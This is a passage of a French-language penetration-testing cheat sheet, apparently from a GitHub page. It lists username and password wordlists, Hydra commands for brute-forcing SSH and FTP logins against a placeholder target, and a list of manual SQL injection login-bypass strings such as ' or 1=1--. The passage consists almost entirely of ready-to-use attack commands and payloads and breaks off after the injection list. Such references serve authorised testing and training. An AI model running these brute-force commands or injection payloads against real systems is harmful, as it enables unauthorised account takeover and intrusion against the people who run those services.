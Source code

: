 ### Utilisateurs 
* [ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt) 
* [ftp-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ftp-usernames.txt "ftp-usernames.txt")
### Mot de passe
* ``/usr/share/wordlists/rockyou.txt`` 
* [ssh-passwords.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-passwords.txt "ssh-passwords.txt") 
* [ftp-passwords.txt](https://github.com/pentestmonkey/yaptest/blob/master/ftp-passwords.txt "ftp-passwords.txt")

## SSH 
1. Bruteforcer un service SSH sans aucunes informations
```
hydra -L [WORDLIST_USERS] -P [WORDLIST_PASSWD] [IPCIBLE] ssh -t 4
```
2. Bruteforcer un service SSH en ayant le login
```
hydra -l [user] -P [WORDLIST_PASSWD] [IPCIBLE] ssh -t 4
```
3. Bruteforcer un service SSH en ayant le mot de passe
```
hydra -L [WORDLIST_USERS] -p [password] [IPCIBLE] ssh -t 4
```
## FTP
1. Bruteforcer un service FTP sans aucunes informations**:
```
hydra -L [WORDLIST_USERS] -P [WORDLIST_PASSWD] [IPCIBLE] ftp -t 4
```
2. **Bruteforcer un service FTP en ayant le login**:
```
hydra -l [user] -P [WORDLIST_PASSWD] [IPCIBLE] ftp -t 4
```
3. **Bruteforcer un service FTP en ayant le mot de passe**:
```
hydra -L [WORDLIST_USERS] -p [password] [IPCIBLE] ftp -t 4
```
4. Spécifier le port du service via ``-s [PORT]``

# 10) Injection SQL
1. Injection manuelle
```
admin' --

admin' #

admin'/*

' or 1=1--

' or 1=1#

' or 1=1/*

') or '1'='1--

') or ('1'='1—

' OR 1=1;--

%' or '0' = '0

```